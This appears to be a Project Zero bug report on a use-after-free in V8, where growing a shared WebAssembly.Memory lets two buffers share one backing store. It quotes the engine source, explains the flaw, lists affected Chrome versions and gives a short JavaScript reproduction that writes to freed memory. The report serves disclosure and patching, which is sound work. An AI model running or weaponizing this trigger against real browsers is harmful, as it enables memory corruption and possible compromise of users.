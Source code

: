 <b>VULNERABILITY DETAILS</b>
https://cs.chromium.org/chromium/src/v8/src/wasm/wasm-objects.cc?rcl=783343158eb1b147df7e6669f1d03c690c878e21&l=1253
```
int32_t WasmMemoryObject::Grow(Isolate* isolate,
                               Handle<WasmMemoryObject> memory_object,
                               uint32_t pages) {
[...]
  Handle<JSArrayBuffer> new_buffer;
  if (old_buffer->is_shared()) {
    // Adjust protections for the buffer.
    if (!AdjustBufferPermissions(isolate, old_buffer, new_size)) {
      return -1;
    }
    void* backing_store = old_buffer->backing_store();
    if (memory_tracker->IsWasmSharedMemory(backing_store)) {
      // This memory is shared between different isolates.
      DCHECK(old_buffer->is_shared());
      // Update pending grow state, and trigger a grow interrupt on all the
      // isolates that share this buffer.
      memory_tracker->SetPendingUpdateOnGrow(old_buffer, new_size);
      // Handle interrupts for this isolate so that the instances with this
      // isolate are updated.
      isolate->stack_guard()->HandleInterrupts();
      // Failure to allocate, or adjust pemissions already handled here, and
      // updates to instances handled in the interrupt handler safe to return.
      return static_cast<uint32_t>(old_size / wasm::kWasmPageSize);
    }
    // SharedArrayBuffer, but not shared across isolates. Setup a new buffer
    // with updated permissions and update the instances.
    new_buffer =
        wasm::SetupArrayBuffer(isolate, backing_store, new_size, // ***1***
                               old_buffer->is_external(), SharedFlag::kShared);
    memory_object->update_instances(isolate, new_buffer);
[...]
```

When `Grow` is called on a `WebAssembly.Memory` object that's backed by a `SharedArrayBuffer`, it
uses the buffer's backing store pointer to construct a new array buffer[1]. Calling `Detach` on
shared buffers is prohibited by the spec, so the the method just leaves the old one as it is. Thus
two array buffers might end up owning the same backing store, and if one of the them got garbage
collected, the other one would point to a freed memory region.

Blink's SharedArrayBuffer implementation uses reference-counted backing stores, so v8 should
probably implement something similar.

<b>VERSION</b>
Google Chrome 73.0.3683.103 (Official Build) (64-bit) (cohort: Stable)
Chromium 75.0.3758.0 (Developer Build) (64-bit)
This bug affects the stable branch due to the currently active "WebAssembly Threads" Origin Trial.
https://developers.chrome.com/origintrials/#/view_trial/-5026017184145473535

<b>REPRODUCTION CASE</b>
<script>
function gc() {
  for (let i = 0; i < 50; ++i) {
    let buffer = new ArrayBuffer(1024 * 1024);
  }
}

setInterval(() => {
  memory = new WebAssembly.Memory({initial: 1, maximum: 2, shared: true});
  memory.grow(1);
  gc();
  array = new Int8Array(memory.buffer);
  array[0x1337] = 1;
});
</script>

<b>CREDIT INFORMATION</b>
Sergei Glazunov of Google Project Zero

This bug is subject to a 90 day disclosure deadline. After 90 days elapse or a patch has been made
broadly available (whichever is earlier), the bug report will become visible to the public.